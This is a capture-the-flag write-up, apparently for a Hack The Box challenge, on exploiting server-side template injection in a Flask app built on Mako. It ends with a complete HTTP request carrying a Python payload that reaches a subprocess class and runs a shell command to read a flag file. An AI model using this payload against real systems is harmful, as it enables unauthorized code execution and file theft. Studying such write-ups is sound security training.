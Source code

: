 # Spookifier

## Reviewing Configuration Files

- The Dockerfile gives us the dependencies of the webapplication
    - Flask 2.0.0
    - mako
        - https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/code-execution-via-ssti-python-mako/
        - https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-python-mako/
        - https://portswigger.net/web-security/server-side-template-injection/exploiting
    - flask_mako
    - Werkzeug 2.0.0

## Architecture Review

- The architecture is a Flask web application. That means there are HTTP API endpoints. The route handlers exist in application/blueprints/routes and are bound in main.py. There is only a single route `/`

## Code Review

Starting from the entry point, we see that the URL endpoint takes a single GET parameter 'text':

```python
# application/blueprints/routes.py
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

From viewing the Dockerfile and looking at the imports, we know that the application is using something called [flask_mako](https://flask-mako.readthedocs.io/en/latest/). After reading the project page, we can deduce that flask_mako is a templating engine. Templating engines are typically susceptible to Server side template injections. A SSTI occurs when an attacker is able to use native template syntax to inject a malicoius payload into the template and obtain arbitrary code execution. 

After a quick Google, I find the following disclosures:

- https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/code-execution-via-ssti-python-mako/
- https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-python-mako/

## Exploit Development

Ok, now that we know mako is susceptible to SSTI, lets attempt to detect an indication that this is exploitable. A go to way for testing for SSTI is to use `7*7` and detect whether the template engine evaluated the expression to 49. Not all template engines are the same though. They all use different syntaxes in order to know when to evaluate Python code. I started reading the documentation to [Flask-Mako](https://docs.makotemplates.org/en/latest/).

After a bit of reading, I found the syntax for expression evaluation. In mako, you use `${}` to evaluate Python3 directly. Lets try this in the web-app:

![spookifier-ssti-ioc.](/assets/htb/spookifier-ssti-ioc.png)

This web-application is in fact, vulnerable to a SSTI. 

Next, we need to craft a payload to perform arbitrary code exectuion so we can read the flag. 

```
GET /?text=${''.__class__.__mro__[1].__subclasses__()[280]('cat%20/flag.txt',shell=True,stdout=-1).communicate()} HTTP/1.1
Host: 94.237.62.181:58323
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.62.181:58323/?text=%7B%7B7*7%7D%7D
Upgrade-Insecure-Requests: 1


```


## References

- https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection
- https://flask-mako.readthedocs.io/en/latest/
- https://docs.makotemplates.org/en/latest
- https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/code-execution-via-ssti-python-mako/
- https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-python-mako/

- https://dr34mhacks.github.io/posts/how-to-exploit-ssti/